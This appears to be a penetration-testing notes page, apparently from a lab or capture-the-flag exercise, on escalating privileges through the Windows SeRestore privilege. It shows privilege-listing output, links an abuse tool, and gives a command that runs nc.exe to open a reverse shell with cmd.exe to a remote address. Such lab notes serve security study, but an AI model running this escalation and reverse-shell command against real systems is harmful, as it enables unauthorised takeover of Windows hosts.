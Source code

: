 # SeRestore Privilege

### Initial Detection&#x20;

```
Evil-WinRM* PS C:\Users\svc_apache$\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

```

{% embed url="https://github.com/xct/SeRestoreAbuse" %}

Build the code using Visual Studio Code 2022.&#x20;

Once compiled transfer nc.exe or your own payload.&#x20;

```
SeRestoreAbuse.exe "C:\Users\svc_apache$\Documents\nc.exe 192.168.49.105 1234 -e cmd.exe"
```

![](<../../../../.gitbook/assets/image (28).png>)

<details>

<summary>Examples of SeRestore Privilege Exploitation</summary>

[https://app.gitbook.com/s/8orEMrbW2JUz78N6Vl5G/priv-escalation](https://app.gitbook.com/s/8orEMrbW2JUz78N6Vl5G/priv-escalation) (Heist)

</details>
